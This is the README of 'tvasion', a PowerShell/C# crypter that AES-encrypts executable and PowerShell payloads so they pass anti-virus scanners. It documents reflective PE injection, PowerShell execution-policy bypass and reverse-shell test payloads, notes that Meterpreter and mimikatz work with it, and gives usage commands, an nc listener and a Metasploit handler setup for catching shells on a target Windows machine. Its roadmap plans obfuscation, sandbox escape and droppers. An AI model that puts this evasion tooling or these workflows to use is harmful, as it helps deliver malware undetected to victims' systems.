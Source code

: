 # tvasion - Powershell / C# AES anti virus evasion 

Simple & small anti virus evasion based on file signature change via AES encryption with Powershell and C# evasion templates which support executable and Powershell payloads with Windows executable, Powershell or batch output. Developed with Powershell on Linux for Windows targets :)

# under development see [tests.ps1](tests.ps1) whats working at the moment

Buzzwords: Anti virus evasion, crypter, AES encryption, ReflectivePEInjection, PowerShell execution policy bypass

## Features
- outputs 32 bit executable (.exe), Powershell (.ps1) or batch (.bat)
- works with excutable + Powershell payloads
- AES encryption for file signature change
- Powershell and C# evasion templates available
- EXOTIC: Powershell, mcs based developed on Linux for Windows targets :-)
- simple & small - easy to extend

## Usage
```
tvasion: AES based anti virus evasion
type parameter -t (exe|bat|ps1), argument "payload path" are required, -o "output directory" is optional, -d "debug" is optional
./tvasion -t (exe|bat|ps1) [PAYLOAD (exe|ps1)] OR ./tvasion [PAYLOAD (exe|ps1)] -t (exe|bat|ps1)
Parameter:
[PAYLOAD (exe|ps1)]       input file path. requires: exe, ps1         required
-t (exe|ps1|bat)          output file type: exe, ps1, bat             required
-o (PATH)                 set output directory (default is ./out/)    optional
-d                        generate debug output                       optional
examples:
./tvasion.ps1 -t exe tests/ReverseShell.ps1           # generate windows executable (.exe) from powershell
./tvasion.ps1 -t ps1 tests/ReverseShell_c#amd64.exe   # generate powershell (.ps1) from excecutable
./tvasion.ps1 -t exe tests/ReverseShell_c#amd64.exe   # generate windows executable (.exe) from excecutable
```
Files generated in ./out directory
See more examples in: [test file](tests.ps1)

## Setup Debian Stretch / Kali Linux

Depencies:
- [PowerShell](https://github.com/PowerShell/PowerShell)  
- [mono-mcs](https://www.mono-project.com/docs/about-mono/languages/csharp/) (optional but required for cross plattform executable compilation for executeable payloads)

```shell
# setup Powershell for Linux. see link above, be root

# install compiler depencies (optional, required for executable output)
apt-get install -y mono-mcs

# clone with git
git clone https://github.com/loadenmb/tvasion.git
```
    
## Details & advanced usage

Change AES decryption template source code to make sure evasion output is undetectable by anti virus solutions.

C# and powershell templates from ./templates/ directory basically do: 
```
decode -> decrypt -> launch payload
```
It's input / output type dependent which template needs changes. See here:

| payload type  |  output type  | template from ./templates/ folder |  details |
| ------------- | ------------- | --------------------------------- | -------- |
| powershell    | powershell    | default.ps1                       | Invoke-Expression |
| executable    | powershell    | default_exe.ps1                   | Invoke-Expression + ReflectivePEInjection (*2) |
| executable    | executable    | default_exe.cs                    | PEInjection (*2) |
| powershell    | executable    | default.cs                        | PowerShell execution policy bypass with -enc |
| powershell    | batch         | default.ps1                       | PowerShell execution policy bypass with -enc + Invoke-Expression (*1) |
| executable    | batch         | default_exe.ps1                   | PowerShell execution policy bypass with -enc + Invoke-Expression + ReflectivePEInjection (*1, *2)|

(*1) .exe -> .bat requires pretty small payload because of maximum cmd arguments length.
(*2) not working with all binaries; Meterpreter, mimikatz work

Payload is created like this:
```
                                -> pasted & compiled into 64 bit windows executeable written in C# (.exe -> .exe)
payload -> AES encryption -> base64 encoded 
                                -> pasted into powershell script (.ps1 -> .ps1) 
                                        -> base64 encoded 
                                                -> pasted & into 64 bit windows executeable written in C# (.ps1 -> .exe)             
                                                -> pasted into batch file (.ps1 | .exe -> .bat)       
```

### Tests
Windows C# and powershell reverse shells are included in ./tests/ folder for testing purposes. 

Run tests:
- [setup metasploit framework](https://metasploit.help.rapid7.com/docs/installing-the-metasploit-framework)
- change IP to your IP in ./tests/ReverseShell.ps1 and ./tests/ReverseShell.cs and ./tests.ps1 (we need single configuration)
- run msfconsole in seperate terminal
- run ./tests.ps1 for compilation / test file creation. see ./out/ for results (16 different malicious files at the moment)
- listen for reverse connections on linux machine:
```shell
# listen for reverse shell connections from ./tests/ReverseShell.ps1 and ./tests/ReverseShell.cs.
nc -nvlp 4242
```
```shell
# use msfconsole you opened in seperat terminal, we need this launched before to generate Meterpreter in ./tests.ps1
# listen with metasploit multi handler for windows/meterpreter/reverse_tcp on port 4444 (tests.ps1 generated Meterpreter will connect this port)
cd ./tvasion/tests/
msfconsole
resource msf_multihandler.rc
```
- copy files from ./out/ directory to target Windows machine & execute

## Roadmap / TODO (feel free to work on)
- add more evasion functionality:
    - template obfocusation / randomize variable names, white spaces / line breaks / tabs, call order, hide native method names, + add auto generated useless code
    - payload compression / script comment removement
    - anti virus sandbox escape (maybe via long execution delay or try to allocate many resources until sandbox stops processing)
    - better cloaking for encrypted payload string
- add better C# PEInjection
- add new output types:
    - vcf ouput (local code execution, if working in 2019) 
    - .doc + .xls ouput via DDEAUTO or OLE / Powerquery (local code execution without macro)
- add TCP (HTTPS?) + UDP (DNS?) dropper
- add executable file binder (PE file injection)?
- make ./tvasion.ps1 self run on windows

## Related
- [Powershell ReflectivePEInjection](https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1) @ github
- [C# PE loader](https://github.com/Arno0x/CSharpScripts/blob/master/peloader.cs) @ github
- [15 ways to bypass PowerShell execution policy](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/) @ external blog
